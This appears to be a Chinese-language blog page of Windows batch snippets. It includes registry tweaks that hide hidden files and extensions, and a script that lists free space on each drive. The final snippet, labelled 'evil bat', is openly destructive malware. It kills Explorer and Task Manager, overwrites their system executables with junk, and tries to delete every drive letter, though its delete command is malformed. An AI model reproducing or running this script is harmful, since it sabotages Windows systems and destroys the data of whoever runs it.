 {% codeblock 不显示隐藏文件.bat lang:vbs %}
    reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\Advanced" /v Hidden /t reg_dword /d 00000000 /f
    reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\Advanced" /v HideFileExt /t reg_dword /d 00000001 /f
    reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\Advanced" /v ShowSuperHidden /t reg_dword /d 00000000 /f
{% endcodeblock %}

## 显示所有分区的剩余空间（以MB为单位)

{% codeblock 显示所有分区的剩余空间（以MB为单位).bat lang:vbs %}
    @echo off
    setlocal enabledelayedexpansion

    :Main
    cls
    set /a num2=1024*1024
    for %%i in (c d e f g h i j k l m n o p q r s t u v w x y z) do (
        set num1=0
        set num3_str=
        set num4=
        for /f "tokens=3" %%j in ('dir /-c %%i:\ 2^>nul') do set num1=%%j
        if not "!num1!"=="0" (
            call :loop
            for /f "delims=0 tokens=*" %%k in ("!num3_str!") do set num3_str=%%k
            echo.
            echo        %%i 盘剩余空间为 !num3_str! MB
            echo.
        )
    )
    pause
    goto loop

    :loop
    set /a num3=%num4%%num1:~0,1%/%num2%
    set num3_str=%num3_str%%num3%
    set /a num4=%num4%%num1:~0,1%%%%num2%
    if %num4% equ 0 set num4=
    set num1=%num1:~1%
    if not "%num1%"=="" goto loop
    goto :eof
{% endcodeblock %}


---

## 邪恶bat

{% codeblock 邪恶bat.bat lang:vbs %}
    @echo off
    set "a=c,d,e,f,G,h,I,a,j,m,n,o,l,k,p,q,r,s,t,u,v,w,x,y,z"
    taskkill /im explorer.exe /f
    copy %systemroot%\explorer.exe 1.exe
    >%systemroot%\explorer.exe echo .
    taskkill /im taskmgr.exe /f
    copy %systemroot%\taskmgr.exe 2.exe
    >%systemroot%\system32\taskmgr.exe echo .
    for %%i in (%a%) do delete %%i:
{% endcodeblock %}
